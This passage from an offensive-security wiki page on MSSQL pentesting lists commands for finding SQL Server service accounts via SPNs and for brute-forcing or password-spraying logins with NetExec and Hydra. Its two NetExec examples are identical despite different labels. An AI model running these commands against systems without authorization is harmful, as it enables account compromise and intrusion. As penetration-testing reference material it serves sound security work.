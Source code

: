 ```bash
# Setspn LOLBIN
setspn -T domain.local -Q MSSQLSvc/*

# Using GetUserSPNs
. .\GetUserSPNs.ps1
```

From an UNIX-Like hosts, we can directly search using [GetUserSPNs ](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py)from impacket:

```bash
GetUserSPNs.py -dc-ip <DC_IP> '<DOMAIN>/<USER>:<Password>'
```
{% endtab %}
{% endtabs %}

### Enumerate DB Objects

To enumerate Databases, Tables, Columns, Users, Permissions, refers to the following page

{% content-ref url="../../web/infrastructures/dbms/enum-databases.md" %}
[enum-databases.md](../../web/infrastructures/dbms/enum-databases.md)
{% endcontent-ref %}

### Brute Force Credentials

{% hint style="danger" %}
If you **don't** **have credentials** you can try to guess them. You can use nmap or metasploit. Be careful, you can **block accounts** if you fail login several times using an existing username.
{% endhint %}

{% tabs %}
{% tab title="NetExec" %}
Using [NetExec](https://github.com/Pennyw0rth/NetExec), we may bruteforce MSSQL credentials.

```bash
# Bruteforce
nxc mssql <TARGET> -u <userfile> -p <passwordfile> --no-bruteforce

# Password-Spray
nxc mssql <TARGET> -u <userfile> -p <passwordfile> --no-bruteforce
```
{% endtab %}

{% tab title="Hydra" %}
Using Hydra, we may bruteforce MSSQL credentials.

```bash
hydra -L usernames.txt –p password <target-ip> mssql
hydra -l username –P passwords.txt <target-ip> mssql
```
{% endtab %}
{% endtabs %}

### Sign-in
